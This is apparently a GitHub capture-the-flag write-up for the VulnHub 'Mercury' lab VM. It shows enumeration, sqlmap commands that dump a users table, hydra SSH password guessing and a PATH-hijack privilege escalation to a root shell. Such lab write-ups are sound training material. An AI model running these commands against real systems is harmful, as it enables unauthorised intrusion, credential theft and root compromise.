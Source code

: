 # MERCURY
Mercury is an easier box, with no brute-forcing required. There are two flags on the box: a user and a root flag which include an md5 hash. This has been tested on VirtualBox so may not work correctly on VMware.

- image file can be downloaded from [here](https://www.vulnhub.com/entry/the-planets-mercury,544/)

<br>

## Enumeration
- nmap scan:
  <br>
  
![mercury_nmap](https://github.com/shybu9/vulnhub/assets/112984045/7ebc1461-7fb5-4bfd-8faa-1aaef88c3a8d)

- port scan using [personal_tool]():
 <br>
 
![mercury_portscan](https://github.com/shybu9/vulnhub/assets/112984045/d0eb86bf-00c2-4745-ae83-351a759a7f61)

- gobuster scan:
<br>

![mercury_gobuster_comman](https://github.com/shybu9/vulnhub/assets/112984045/77323c20-aae6-4529-a7bc-f1f671ba2e4e)

### After scan analysis:
- open ports: 22 (SSH) & 8080 (HTTP_PROXY)
- web directories: /robots.txt

### Web page enumeration:
<br>

![mercury_robots](https://github.com/shybu9/vulnhub/assets/112984045/3bb9d318-d61e-4137-93fb-1b3e43fa3364)
<br>
- robots.txt disallows '*' user agent for directory '/'

<br>

```
http://192.168.188.169/*
```
![mercury_ ](https://github.com/shybu9/vulnhub/assets/112984045/fa516418-d1a9-4bf0-b902-c5f47f3e01ca)

-- directory '/mercuryfacts' seems to have an SQLI-vulnerable perimeter
<br>

```
sqlmap --url http://192.168.188.169/mercuryfacts --dbs --batch
```
![mercury_sqli_dbs](https://github.com/shybu9/vulnhub/assets/112984045/bfe70f54-59d1-4b35-b53b-8e8d819b9699)
<br>

```
sqlmap --url http://192.168.188.169/mercuryfacts -D mercury --tables --batch
```
![mercury_sqli_users](https://github.com/shybu9/vulnhub/assets/112984045/7a120954-ee73-4338-ab15-746ce2399adc)
<br>
```
sqlmap --url http://192.168.188.169/mercuryfacts -D mercury -T users --dump --batch
```
![mercury_sqli_user_pass](https://github.com/shybu9/vulnhub/assets/112984045/77c357d5-59d6-4e5a-9f0a-9595d06c1465)



### Finding the right credentials using hydra
- A list of usernames and passwords can be generated from this sqlmap dumps
```
hydra -L users_list -P pswds_list ssh://192.168.188.169
```
![mercury_hydra](https://github.com/shybu9/vulnhub/assets/112984045/d766d37a-8ec7-41d6-bdb7-f3396375f6ac)
<br>

## User Flag
![mercury_userflag](https://github.com/shybu9/vulnhub/assets/112984045/a1eb18d5-2415-41da-9a72-a9bcf3c52dd2)
<br>

### horizantal privesc
- there was a note kept under 'mercury_proj' directory which has base64 encoded password of both web
<br>
```
cat mercury_proj/note.txt
```
![note_decode](https://github.com/shybu9/vulnhub/assets/112984045/92d43e5d-5988-4839-8d48-6413270dd0fe)

```
su linuxmaster
```
![mercury_note_su_linux_master](https://github.com/shybu9/vulnhub/assets/112984045/e589a2fd-3807-4b69-b3f5-ab7200119bcd)

<br>

## privesc to root

```
sudo -l
```
![mercury_cat_privesc](https://github.com/shybu9/vulnhub/assets/112984045/a77c673c-5217-4090-a0c4-b760339b08a0)

- file 'usr/bin/check_syslog.sh' can be executed by anyone but can only be edited by root.
- an environment variable 'tail' is used without mentioning the full path.
- this env variable can by abused by:

```
ln -s /usr/bin/vim tail
```
```
export PATH=$(pwd):$PATH
```
![mercury_privesc_cmds](https://github.com/shybu9/vulnhub/assets/112984045/d38882ca-4d10-4b60-a36b-1ac697a5d3b5)

```
sudo --preserve-env=PATH /usr/bin/check_syslog.sh
```
```
:!/bin/bash
```
![mercury_rootflag](https://github.com/shybu9/vulnhub/assets/112984045/027a1773-97e0-4567-ba41-e5682d724bb1)



